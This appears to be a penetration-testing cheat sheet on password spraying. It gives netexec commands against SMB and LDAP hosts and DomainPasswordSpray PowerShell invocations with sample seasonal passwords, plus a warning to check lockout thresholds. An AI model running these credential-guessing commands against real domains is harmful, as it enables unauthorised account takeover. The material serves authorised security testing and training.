 # Password Spraying
NOTE: Always check or confirm lockout threshold before spraying
## netexec
NOTE: By default nxc will exit after a successful login is found. Using the --continue-on-success flag, it will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list. This is incompatible with command execution.
1. Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Multiple usernames (space delimeter):
```
nxc smb 192.168.1.101 -u user1 user2 user3 -p Summer18 --continue-on-success
```
Multiple passwords (space delimeter):
```
nxc smb 192.168.1.101 -u user1 -p password1 password2 password3 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
Input files:
```
nxc smb 192.168.1.101 -u /path/to/users.txt -p Summer18
```
```
nxc smb 192.168.1.101 -u Administrator -p /path/to/passwords.txt
```
```
nxc smb 192.168.1.101 -u user.txt -p password.txt
```
## DomainPasswordSpray
- [DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)
- PowerShell tool
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
The following command will automatically generate a list of users from the current user's domain and attempt to authenticate using each username and a password of Winter2025.
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```

